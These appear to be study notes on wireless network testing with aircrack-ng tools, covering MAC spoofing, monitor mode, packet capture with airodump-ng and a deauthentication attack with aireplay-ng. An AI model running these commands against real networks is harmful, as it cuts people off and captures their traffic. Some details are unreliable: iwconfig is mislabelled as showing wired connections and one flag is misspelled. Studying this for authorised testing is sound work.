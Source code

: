 
| Command | Purpose |
| -- | -- |
| `ifconfig` | current network config |
| `iwconfig` | current wired connections |


### Changing mac address
```shell
ifconfig <interface> down;
ifconfig <interface> hw ether <ne:w:v:al:ue>;
ifconfig <interface> up;
```
- reverts back on reboot.

### Setting to monitor mode
```shell
ifconfig <interface> down;
airmon-ng check kill; #not compulsory; killing process that may interfere
iwconfig <interface> mode monitor;
ifconfig <interface> up
```

### Monitoring using `airodump-ng`
>monitor mode should be set

```shell
airodump-ng <interface>
```

Specific band:
```shell
airodump-ng --band <bands> <interface>
```
- check if wireless adapter supports the frequency
- bands:
	- a: 5GHz
	- b,c: 2.4 GHz
	- n: 2.4GHz, 5GHz
	- ac: <6GHz

Specific network:
```shell
airodump-ng --bssid <bssid> --channel <channel> <interface>
```
- 2nd section in output shows the clients

Saving captured data:
```shell
airodump-ng --bssid <bssid> --channell <channel> --write <filename> <interface>
```
- the `filename-01.cap` file can be analysed using wireshark.


### Deauth Attack
```shell
aireplay-ng --deauth <numDeauthPackets> -a <networkMac> -c <targetMac> <interface>
```
- `0` means continuously sending packets
- verify if working on 5Ghz



